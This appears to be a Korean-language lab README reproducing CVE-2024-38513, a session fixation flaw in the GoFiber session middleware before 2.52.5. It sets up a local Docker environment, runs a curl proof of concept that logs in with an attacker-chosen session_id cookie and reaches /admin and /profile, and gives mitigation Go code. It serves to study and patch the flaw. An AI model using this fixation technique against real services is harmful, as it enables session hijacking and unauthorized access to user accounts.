






# Session Middleware Token Injection Vulnerability (CVE-2024-38513)
- 취약점 유형: CWE-384 (Session Fixation)
- 취약 버전: github.com/gofiber/fiber/v2 < 2.52.5
- (NVD 기준) CVSS v3.x Score: 9.8 Critical
```text
AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
```
- 공개일: 2024-07-01
  
### 요약 
GoFiber 세션 미들웨어는 클라이언트가 지정한 임의의 session_id를 그대로 세션 ID로 사용하는 취약점입니다.
이를 통해 세션 고정(Session Fixation) 이나 애플리케이션 구현에 따른 인증 우회가 발생할 수 있습니다.

---

## 1. 취약 조건
- 취약한 GoFiber 세션 미들웨어 버전 사용 ( < 2.52.5 )
- 사용자가 임의의 session_id를 서버에 전달 가능
- 서버가 해당 값을 키로 세션을 생성
- 애플리케이션이 세션의 존재 자체를 보안 or 인증 판단에 사용

---

## 2. 환경 설정 (Environment Setup)
다음 명령어를 통해 GoFiber의 2.52.4 버전의 테스트 환경을 구축합니다.
```bash
docker compose up -d 또는 docker compose up --build
```

테스트 환경 종료 시 다음 명령어를 사용합니다
```bash
docker compose down
```

---

## 3. 취약점 재현 (Vulnerability Reproduction)

**정상적인 세션 ID**


공격자는 자신이 만든 세션 ID를 사용해 로그인을 처리합니다.
```bash
curl -i -H "Cookie: session_id=attacker123" http://localhost:3000/login
```

**공격자가 생성한 세션 ID**


동일한 세션으로 관리자 페이지에 요청을 보냅니다.

**정상 처리 케이스**


```bash
curl -i -H "Cookie: session_id=attacker123" http://localhost:3000/admin
```

**공격자가 의도한 케이스**


앞에서 로그인된 attacker123를 그대로 사용합니다.


**/profile도 접근 가능한지 검증**
```bash
curl -i -H "Cookie: session_id=attacker123" http://localhost:3000/profile
```


**PoC 코드**
```bash
# 공격자가 원하는 session_id를 쿠키로 지정하여 로그인
curl -i -H "Cookie: session_id=attacker123" http://localhost:3000/login

# 동일한 session_id로 관리자 페이지 접근
curl -i -H "Cookie: session_id=attacker123" http://localhost:3000/admin

# 동일한 session_id로 프로필 페이지 접근
curl -i -H "Cookie: session_id=attacker123" http://localhost:3000/profile
```

---

## 4. 대응 방안 (Mitigation)
- GoFiber 라이브러리를 v2.52.5으로 업그레이드를 하여 대응 가능
- 세션 내 값으로 인증 여부를 명시적으로 검증
```go
// 취약한 코드
if sess.Fresh() {
    return c.Status(401).JSON(fiber.Map{"error": "Unauthorized"})
}
// 서버 내부 값 검증
if sess.Fresh() || sess.Get("authenticated") != true {
    return c.Status(401).JSON(fiber.Map{"error": "Unauthorized"})
}
```
- 로그인 시 세션 ID 재생성
```go
app.Post("/login", func(c *fiber.Ctx) error {
    // 인증 성공 후
    sess, _ := store.Get(c)
    
    // 기존 세션 파기 후 새 ID 생성 → 세션 고정 방지
    if err := sess.Regenerate(); err != nil {
        return c.Status(500).SendString(err.Error())
    }
    
    sess.Set("authenticated", true)
    sess.Set("user", "admin")
    return sess.Save()
})
```
- 세션 ID가 서버에서 발급 한 것인지 확인
```go
func validateSessionID(store *session.Store) fiber.Handler {
    return func(c *fiber.Ctx) error {
        cookieID := c.Cookies(store.Config.CookieName)
        if cookieID != "" {
            // UUID 형식이 아닌 ID는 거부
            if _, err := uuid.Parse(cookieID); err != nil {
                c.Cookie(&fiber.Cookie{
                    Name:  store.Config.CookieName,
                    Value: "",
                    MaxAge: -1,
                })
            }
        }
        return c.Next()
    }
}
```

---

## 5. 참고자료
| 구분 | URL |
|---|---|
| NVD CVE 상세 | https://nvd.nist.gov/vuln/detail/CVE-2024-38513 |
| GitHub Security Advisory | https://github.com/gofiber/fiber/security/advisories/GHSA-98j2-3j3p-fw2v |
| 패치 커밋 | https://github.com/gofiber/fiber/commit/66a881441b27322a331f1b526cf1eb6b3358a4d8 |
| CWE-384 Session Fixation | https://cwe.mitre.org/data/definitions/384.html |
